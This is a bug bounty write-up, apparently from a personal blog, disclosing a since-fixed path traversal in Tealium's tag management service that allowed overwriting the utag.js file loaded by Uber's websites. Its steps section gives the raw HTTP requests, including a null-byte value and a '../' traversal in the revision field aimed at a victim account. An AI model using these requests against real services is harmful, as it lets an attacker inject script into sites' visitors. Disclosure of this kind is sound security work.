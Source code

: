 ```yaml
---
layout: post
title: Hijack the JS File of Uber's Website
categories: articles
---
```


<p align="right" class="date">{{ page.date | date_to_string }} - zhchbin</p>

&nbsp;&nbsp;&nbsp;Again, sorry for my poor English first of all, and I will try my best to describe this bug bounty report throughly.

## TLDR

1. Almost all of Uber’s websites are loading JS file: https://tags.tiqcdn.com/utag/uber/main/prod/utag.js
2. I found that the content of utag.js is updating from `/data/utui/data/accounts/uber/templates/main/utag.js` when deploying in my.tealiumiq.com.
3. my.tealiumiq.com has a path traversal issue, which allow hacker to change `utag.js` of other account, including Uber’s.
4. This bug had beed fixed 8 months ago. Bug Bounty: $6000.

## My Steps

I like asking myself some questions when hunting for bug bounty. Looking around about `https://tags.tiqcdn.com/utag/uber/main/prod/utag.js`, I found Uber’s websites were using a third party service offered by Tealium. I asked myself: can I modify the content of `utag.js`? How?

I registered two account and began my journey. WARNING: DO NOT TEST IN PRODUCTION USING TARGET ACCOUNT.

<img src="https://statics.symbo1.com/file/symbo1/article-images/7184df6bgy1fxtifofrypj20gh0bq0tw.jpg">

* Post `/urest/legacy/saveTemplate` with `profile=main%00` to get the path in server

{% highlight javascript %}
POST /urest/legacy/saveTemplate?utk=044925f62222711fdfec11dc6a4e7160e053d31e1a7f4774e8 HTTP/1.1
Host: my.tealiumiq.com
<redated>

account=evilaccount&profile=main%00&type=profile&template=profile.loader&code=%2F%2F+console.log(1)%3B%0A%0Aconsole.log(1)%3B
{% endhighlight %}

Response

{% highlight javascript %}
{ "message" : "There was an error updating this template: /data/utui/data/accounts/evilaccount/templates/main/utag.js"}
{% endhighlight %}

As you can see, the `utag.loader` template path is `/data/utui/data/accounts/evilaccount/templates/main/utag.js`

* Change the requst body to update the revision.loader

{% highlight javascript %}
POST /urest/legacy/saveTemplate?utk=688b137d1b8d8e884b3e1be4cd689843d0e3bc9705665f059b HTTP/1.1

account=evilaccount&profile=main%00&type=revision&template=revision.loader&code=thisisatest&revision=201804081230
{% endhighlight %}

Response

{% highlight javascript %}
{ "message" : "There was an error updating this template: /data/utui/data/accounts/evilaccount/templates/main/201804081230/utag.js"}
{% endhighlight %}

As you can see `201804081230` is appearing at the path. After testing, I found that I can insert `../` into this path, which means that I can change utag.js of any account, including Uber’s.

{% highlight javascript %}
POST /urest/legacy/saveTemplate?utk=688b137d1b8d8e884b3e1be4cd689843d0e3bc9705665f059b HTTP/1.1
...

account=evilaccount&profile=main&type=revision&template=revision.loader&code=thisisatest&revision=201804081230/../../../../<victimaccount>/templates/main
{% endhighlight %}
